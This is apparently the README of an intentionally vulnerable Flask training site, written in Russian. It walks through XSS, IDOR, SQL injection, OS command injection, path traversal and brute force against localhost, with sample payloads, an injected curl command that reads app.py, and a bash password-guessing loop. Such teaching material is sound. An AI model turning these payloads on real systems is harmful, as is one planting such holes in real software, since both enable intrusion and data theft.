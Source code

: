 # VVery-Bad-flask-app

### Уязвимый веб-сайт, написанный на Flask

Данный сайт иллюстрирует несколько распространенных уязвимостей:

a. XSS
b. IDOR
c. SQLI
d. OS command injection
e. Path Traversal
f. Brute force

На сайте представлены страницы, соответстсвующие перечисленным уязвимостям. Также, если "дополнительные" проблемы, типа использования слабых алгоритмов хэширования или хранение захардкоженных кредов. 
В базе данных используется две table для иллюстрации уязвимотсей: users и books.
#### Запуск

Выполняем следующие команды: 

```
mkdir -p temp
flask --app app run
```

По дефолту сайт запускается на 127.0.0.1:5000
#### XSS

Страница предоставляет поиск по базе данных, содержащей различные книги. Чтобы воспроизвести уязвимость вносим в поле поиска: 
http://127.0.0.1:5000/pathtraversalimg?img=../../app.py
```
<script>alert("e he he")</script>
```

#### IDOR 

На странице представлены логин и пароль, по которым можно "войти" в систему. 
Как только мы успешно входим, можно увидеть, что у нас появились пользовательские cookies - user_id и session_token. 

Можно догадаться, что user_id соответсвует порядковый номер (индекс) пользователя в базе данных. Меняем user_id на число 1 или 3, перезагружаем страницу и получаем аккаунт другого пользователя, пропуская шаги валидации пароля. 

#### SQLI

Попробуем ввести рандомный пароль, а в поле "Имя пользователя":

```
admin' OR '1'='1
```

После чего успешно "входим" в систему.

#### OS command injection

Запустим слудеющий curl-запрос: 

```
curl -g 'http://127.0.0.1:5000/os?hostname=8.8.8.8%20-c%203%20|%20cat%20app.py'
```

Видим, что команда исполняется на сервере, где хостится веб-сайт и получаем исходный код. Вместо исходного кода, можем выполнять любые другие команды на сервере. 

#### Path Traversal

Исследуя страницу, видим, что картинка с котом загружается следюущим образом: 
http://127.0.0.1:5000/pathtraversalimg?img=../../app.py
```
http://127.0.0.1:5000/pathtraversalimg?img=666.jpg
```

Попробуем "погулять" по серверу: 

```
http://127.0.0.1:5000/pathtraversalimg?img=../../app.py
```

#### Brute Force

Создадим скрипт:

```
file=./pass.txt  
ip=127.0.0.1:5000/bruteforce  
  
while read -r line; do  
	echo $line  
	curl $ip -d "username=admin&password=$line" -v 2>&1 | grep "200 OK"  
done < "$file"
```
Запускаем скрипт, который подбирает пароль к администраторской учетной записи. Можно самостоятельно создать pass.txt или заменить его на любые готовые словари. 

Hint: пароль будет admin 
